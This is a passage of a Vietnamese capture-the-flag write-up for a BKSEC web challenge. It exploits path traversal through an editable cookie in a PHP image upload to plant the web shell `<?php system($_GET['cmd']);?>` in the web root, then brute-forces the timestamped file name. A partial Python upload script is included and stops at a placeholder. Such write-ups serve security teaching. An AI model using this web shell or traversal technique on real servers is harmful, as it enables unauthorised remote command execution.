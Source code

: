 ```php
    <footer class="my-5 pt-5 text-body-secondary text-center text-small">
      <p class="mb-1">&copy; 2023 CLB An Toàn Thông Tin - BKHN</p>
    </footer>
  </div>
  <script src="assets/dist/js/bootstrap.bundle.min.js"></script>
</body>
</html>
```

- Chỗ này có  `Path travesal`.

![](https://hackmd.io/_uploads/SyQHk3Wp3.png)

![](https://hackmd.io/_uploads/rJbuJ2bT2.png)

Để ý tới phần `$target_file`: 
`$target_file = $uploadpath . $userValue . "_" . $timestamp . "_" . $_FILES["image"]["name"];`

Phần `$uploadpath = "/var/tmp/";` , `$timestamp = time();`
Phần cookie `$userValue = $_COOKIE['user'];` có thể chỉnh sửa để path travesal upload ra một thư mục khác

Ý tưởng:
- Tạo một hình ảnh chứa payload `<?php system($_GET['cmd']);?>`
- Sửa Cookie để path reavesal upload qua một thư mục khác với extension là `.php`
 `BKSEC_guest` => `../../var/www/html/assets/images/`
 
- Gọi tới hình ảnh và thực thi lệnh

Mình bật burp intruder để upload liên tục và gọi một intruder khác để gọi tới file ảnh sau upload với timestamp tăng dần.

Mất khoảng 30 phút thì mình có flag

### Script
Web cookie han hoan `dead` quá, lúc mình viết writeup mình chưa lấy dc flag mới.

![](https://hackmd.io/_uploads/B1LMfmMah.png)

script trên local như sau:
```python
import sys
import requests
from datetime import datetime

if len(sys.argv) != 5:
    print("Usage: python script.py url file_name cookie_value cmd")
    sys.exit(1)

url = sys.argv[1]
file_name = sys.argv[2]
cookie_value = sys.argv[3]
cmd = sys.argv[4]

file = {'image': (file_name, open(file_name, 'rb'), 'image/jpeg')}

cookie = {"user": cookie_value}

res = requests.post(url + 'index.php', files=file, cookies=cookie)

date_string = res.headers.get('Date')
print(date_string)

timestamp = int(datetime.strptime(date_string, '%a, %d %b %Y %H:%M:%S %Z').timestamp()) - XXXXX # phải thay đổi ở chỗ này.

```